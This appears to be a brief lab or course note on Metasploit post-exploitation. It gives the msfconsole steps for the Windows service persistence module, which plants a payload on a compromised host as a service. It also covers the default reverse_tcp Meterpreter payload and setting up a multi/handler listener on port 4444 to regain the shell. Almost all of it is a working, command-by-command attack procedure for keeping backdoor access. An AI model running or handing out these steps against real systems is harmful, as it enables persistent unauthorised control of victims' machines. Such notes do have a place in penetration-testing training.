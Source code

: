 ```
This Module will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.
```

- exploit/windows/local/persistence_service
- Running the service persistence module to maintain access to the compromised machine.
- background 
- use exploit/windows/local/persistence_service 
- set SESSION 1 
- exploit 
- Note: By default persistence, the local exploit module uses the following payload and local port for reverse connection.
	- Payload: windows/meterpreter/reverse_tcp LHOST: Attack IP Address. LPORT: 4444
- We have successfully maintained access. Start another msfconsole and run multi handler to re-gain access.
	- msfconsole -q 
	- use exploit/multi/handler
	- set LHOST 10.10.1.2 
	- set PAYLOAD windows/meterpreter/reverse_tcp 
	- set LPORT 4444 
	- exploit